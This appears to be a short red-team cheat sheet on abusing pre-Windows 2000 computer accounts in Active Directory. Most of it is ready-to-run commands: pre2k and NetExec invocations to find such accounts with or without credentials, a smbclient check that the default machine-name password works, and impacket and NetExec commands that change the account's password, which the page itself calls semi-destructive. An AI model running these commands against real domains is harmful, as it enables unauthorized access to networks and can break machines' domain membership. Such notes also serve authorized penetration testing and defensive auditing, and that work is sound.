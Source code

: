 ___
##  TL;DR:

### Identify


**Tools:** [pre2k](https://github.com/garrettfoster13/pre2k), [nxc](https://github.com/Pennyw0rth/NetExec)

**With creds**
```bash
pre2k auth -u <user> -d <DOMAIN> -p <pass> -dc-ip <dcip> -ldaps
```
or
```bash
nxc ldap <dc-ip> -u 'user' -p 'pass' -M pre2k
```

**Without creds**
```bash
pre2k unauth -d <DOMAIN> -dc-ip <dcip> -inputfile <listofcomputers>
```

!!! alert "Note"
	You can pass `-n` to check blank passwords as well

!!! alert "Manual mode"
	Without using the tool, you can check by identifying `pwdlastset: 12/31/1600 7:00:00PM`

!!! alert "Note"
	The only error that indicates an auth failure is `KDC_ERR_PREAUTH_FAILED` other errors do not mean you can't authenticate

**Validate**
```bash
smbclient.py domain/machinename\$:machinename@dc-ip
```
Expected output: `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

### Exploit

!!! alert "Note"
	this is semi-destructive, it may require the object be rejoined to the domain

Change the account password

**Imacket**
```bash
impacket-changpasswd.py domain/machinename\$:machinename@dc-ip -newpass <pass>
```

**NetExec**
```bash
nxc smb <dcip> -u machinename$ -p 'machinename' -M change-password -o NEWPASS=NewPassword
```